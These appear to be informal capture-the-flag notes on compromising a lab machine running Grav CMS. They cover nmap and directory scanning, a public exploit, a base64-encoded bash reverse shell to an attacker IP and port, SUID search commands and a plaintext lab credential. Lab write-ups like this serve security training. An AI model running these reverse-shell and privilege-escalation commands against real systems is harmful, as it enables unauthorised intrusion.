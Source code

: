 # NMAP 

```
sudo nmap -sC -sV 192.168.247.12 -oN nmap-astronaut
```

![[PG/Linux/attachments/Pasted image 20250705153301.png]]

All ports



# Web 

![[PG/Linux/attachments/Pasted image 20250705153357.png]]
- a folder

Which leads to.. a grav-site!

![[PG/Linux/attachments/Pasted image 20250705153458.png]]

This CMS has a lot of intriguing vulns. Not sure which version I have. 

Doing feroxbuster and found a login page 

```
feroxbuster -u http://192.168.247.12/grav-admin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

![[PG/Linux/attachments/Pasted image 20250705155002.png]]
- if this isn't admin:admin imma be pissed.

It failed 😭
![[PG/Linux/attachments/Pasted image 20250705155054.png]]

Looking for exploits ... https://www.exploit-db.com/exploits/49973?source=post_page-----09c2cf63de97---------------------------------------

Try this.

Make some changes

```
echo -ne "bash -i >& /dev/tcp/192.168.45.152/9001 0>&1" | base64 -w0
```

![[PG/Linux/attachments/Pasted image 20250705162416.png]]

This shit ain't working. fml

Whatevs. This should result in initial access

Oh jk. after a decade this shell came back. 

![[PG/Linux/attachments/Pasted image 20250705164436.png]]
# Priv Esc 

SUID and GTFO bins thing.
```
find / -perm -u=s -type f 2>/dev/null
```

or 

```
find / -perm -4000 2>/dev/null
```


![[PG/Linux/attachments/Pasted image 20250705170251.png]]

It doesn't look like my box has that php shit wtf. DUMMMMBBBBBBBBB

Remember that I have creds lol 

```
alex / thebestsysadmin@13231
```

switch to alex user

Now run 

![[PG/Linux/attachments/Pasted image 20250705171359.png]]
